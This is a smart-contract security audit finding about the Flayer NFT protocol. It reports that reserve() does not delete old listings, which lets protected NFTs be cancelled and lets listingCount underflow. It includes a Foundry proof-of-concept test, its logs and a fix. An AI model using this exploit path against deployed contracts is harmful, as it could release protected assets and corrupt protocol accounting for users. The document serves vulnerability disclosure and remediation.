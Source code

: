 Striped Boysenberry Fox

Medium

# A protected NFT via reserving can be withdrawn from `Listings`

## Summary

A protected NFT via reserving can be withdrawn from `Listings`.

## Vulnerability Detail

The NFTs that were sent to `ProtectedListings` should be literally "protected". That means the only way to unlock the NFTs from protected listings should be via `ProtectedListings::unlockProtectedListing()`.

But the [`Listings::reserve()`](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L690-L759) function decreases the listings count of the collection, but doesn't delete the old listing data.

This makes Protected Listings and Listings to have the same NFT listing data.

Therefore, The possibility exists in the `Listings`, that can modify or cancel the protected NFTs through `modifyListings()` or `cancelListings()`.

Especially, `cancelListings()` has a unchecked decrement of `listingCount` of the collection.

```solidity
    function cancelListings(address _collection, uint[] memory _tokenIds, bool _payTaxWithEscrow) public lockerNotPaused {
        ... ...

        // Remove our listing type
        unchecked {
            listingCount[_collection] -= _tokenIds.length;
        }

        ... ...
    }
```

This unchecked decrement can make the `listingCount[_collection]` value underflowed without any error or revert.

### Proof-Of-Concept

Added a new test case to `Listings.t.sol`:

```solidity
    function test_CanCancelAfterReserving() public {
        address _lister = address(0x0101);
        address _relister = address(0x0102);
        address _collection = address(erc721a);
        uint _tokenId = 1;

        ICollectionToken token = locker.collectionToken(_collection);

        // Set up protected listings
        listings.setProtectedListings(address(protectedListings));

        // Ensure that we don't get a token ID conflict
        _assumeValidTokenId(_tokenId);

        // Ensure that we don't set a zero address for our lister and filler, and that they
        // aren't the same address
        _assumeValidAddress(_lister);
        _assumeValidAddress(_relister);
        vm.assume(_lister != _relister);

        // Provide a token into the core Locker to create a Floor item
        erc721a.mint(_lister, _tokenId);

        vm.startPrank(_lister);
        erc721a.approve(address(listings), _tokenId);
        _createListing({
            _listing: IListings.CreateListing({
                collection: _collection,
                tokenIds: _tokenIdToArray(_tokenId),
                listing: IListings.Listing({
                    owner: payable(_lister),
                    created: uint40(block.timestamp),
                    duration: 8 days,
                    floorMultiple: 150
                })
            })
        });
        vm.stopPrank();

        ////////////////////////////////////////////////////
        // Start Reserving...
        vm.startPrank(_relister);

        // Provide our filler with sufficient, approved ERC20 tokens to make the relist
        uint startBalance = 2 ether;
        deal(address(token), _relister, startBalance);
        token.approve(address(listings), startBalance);

        console.log("Listings Count before Reserving:", listings.listingCount(_collection));

        // Relist our floor item into one of various collections
        listings.reserve({
            _collection: _collection,
            _tokenId: _tokenId,
            _collateral: 0.3 ether
        });

        vm.stopPrank();

        console.log("Listings Count after Reserving:", listings.listingCount(_collection));
        
        // Start cancelling listings
        deal(address(token), address(listings), 5 ether); // <-- @audit Add extra tokens to make cancelling available

        vm.startPrank(_lister);
        token.approve(address(listings), 5 ether);
        uint256[] memory tokenIdsOut = new uint256[](1);
        tokenIdsOut[0] = _tokenId;
        listings.cancelListings(_collection, tokenIdsOut, true);
        vm.stopPrank();

        console.log("Listings Count after Cancelling:", listings.listingCount(_collection));
    }
```

The logs are:
```bash
$ forge test --match-test test_CanCancelAfterReserving -vv
[⠒] Compiling...
[⠃] Compiling 1 files with Solc 0.8.26
[⠒] Solc 0.8.26 finished in 10.85s
Compiler run successful!

Ran 1 test for test/Listings.t.sol:ListingsTest
[PASS] test_CanCancelAfterReserving() (gas: 1301534)
Logs:
  Listings Count before Reserving: 1
  Listings Count after Reserving: 0
  Listings Count after Cancelling: 115792089237316195423570985008687907853269984665640564039457584007913129639935

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 9.47ms (1.97ms CPU time)

Ran 1 test suite in 12.23ms (9.47ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

## Impact

There'd be two kinds of impacts:
1. The wrong listing count will make shutdown funtionality working incorrectly because its `_hasListings()` function requires the correct listing count.
2. The protection won't work for the cancelled NFTs, and also result in wrong calculation of utilization rate.

## Code Snippet

[Listings.sol#L690-L759](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L690-L759)

## Tool used

Manual Review

## Recommendation

Should remove the old listing in the `reserve()` function:

```diff
    function reserve(address _collection, uint _tokenId, uint _collateral) public nonReentrant lockerNotPaused {
        ... ...
        if (oldListing.owner != address(0)) {
            ... ...

            // Reduce the amount of listings
            unchecked { listingCount[_collection] -= 1; }
+           delete _listings[_collection][_tokenId];
        }
        ... ...
    }
```
